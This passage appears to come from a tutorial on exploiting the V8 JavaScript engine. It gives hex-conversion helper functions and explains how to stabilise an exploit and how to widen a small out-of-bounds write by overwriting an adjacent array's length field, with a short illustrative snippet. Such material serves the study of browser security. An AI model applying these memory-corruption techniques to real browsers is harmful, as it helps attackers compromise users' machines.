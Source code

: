 ```

// Float to word hex
function hexprintablefp(f) {
	return (lowerhalf(f2i(f))).toString(16).padStart(8, "0");
}

// Integer to word hex
function hexprintableip(i) {
	return (lowerhalf(i)).toString(16).padStart(8, "0");
}

function upperhalf(i) {
	return i / 0x100000000n;
}

function lowerhalf(i) {
	return i % 0x100000000n;

}

function shift32(i) {
	return i << 32n;
}
```

### Stabilizing the Exploit

One recurring theme in V8 exploitation is that you rarely want to try and trigger the actual vulnerability. Obviously, you need to do it at least once, but extra iterations increase the chances that you will get an unexpected heap layout, run into issues with the garbage collector, or cause some other sort of crash. This means that, unlike our previous examples, you should try to create global variables for the exploitation primitives. This way, you will have a solid heap layout and will only need to trigger the vulnerability once.

Another issue that you may run into is if the vulnerability does not provide a large OOB access. In this case, you can overwrite the length of an adjacent array. An easy way to do this is to have the original OOB array be comprised of integers. Since the length field of the next array is an integer, you can easily overwrite it to then use that victim array as your next OOB array.

```
oob_array = [1, 2, 3, 4, 5];
victim = [{}, {}, {}, {}, {}];

// trigger some vulnerability to get OOB access

console.log(victim.length);
// 5
oob_array[9] = 10;
console.log(victim.length);
// 10
```
